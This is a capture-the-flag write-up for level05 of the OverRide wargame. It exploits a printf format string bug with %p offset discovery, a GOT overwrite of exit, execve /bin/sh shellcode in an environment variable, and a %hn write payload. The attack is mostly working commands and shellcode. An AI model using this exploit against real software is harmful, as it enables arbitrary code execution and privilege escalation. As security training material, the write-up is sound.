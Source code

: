 # Solution

the program use fgets to get user input and then print it in lowercase
since it use printf without checking the content of the buffer the program is 
vulnerable to printf format bug string attack.

```sh
level05@OverRide:~$ ltrace ./level05 
__libc_start_main(0x8048444, 1, -10540, 0x8048520, 0x8048590 <unfinished ...>
fgets(hello world
"hello world\n", 100, 0xf7fcfac0)                = 0xffffd5c8
printf("hello world\n"hello world
)                                = 12
exit(0 <unfinished ...>
+++ exited (status 0) +++
```

```sh
level05@OverRide:~$ (python -c 'print "AAAAaaaa" + "%p " * 20';) | ./level05
aaaaaaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd5ef 0xffffd5ee (nil) 0xffffffff 0xffffd674 0xf7fdb000 0x61616161 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 
```
we can see that our buffer is located at the 10th and 11th address

```sh
0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	movl   $0x0,(%esp)
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
```
and since the only call after printf is exit we will overwrite the address of exit
with the address of our payload

```sh
readelf -S ./level05
[22] .got              PROGBITS        080497c4 0007c4 000004 04  WA  0   0  4
[23] .got.plt          PROGBITS        080497c8 0007c8 000020 04  WA  0   0  4
```

```sh
(gdb) x/x 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376
```
We know where to write now we need to build our payload but first let put our shellcode 
with a nop sled in a env variable

```sh
export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
get the address of our shellcode

```sh
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *payload = getenv("PAYLOAD");
    if (payload) {
        printf("PAYLOAD address: %p\n", (char *)payload);
    } else {
        printf("PAYLOAD environment variable not set.\n");
    }
    return 0;
}


level05@OverRide:~$ /tmp/a.out 
PAYLOAD address: 0xffffdf15
```
we need to put the address of our shellcode instead of the exit address in the got
we will use $n of printf to write the right amount of byte (shellcode adr) in the exit got adr
since our shellcode adr is very big we will write it in two time and increment the shellcode
adr a bit so we end up in the nop sled

```sh
>>> 0xdf15
57109
>>> hex(57137)
'0xdf31'
>>> 0xffff
65535
>>> 65535 - 57109
8426
>>> 65535 - 57130
8405
>>> 65535 - 57137
8398
```
## TODO

printf format attack writting got table of exit to redirection inside nop sled address

```sh
export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
(python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08%57137x%10$hn%8390x%11$hn"'; cat) | ./level05
```
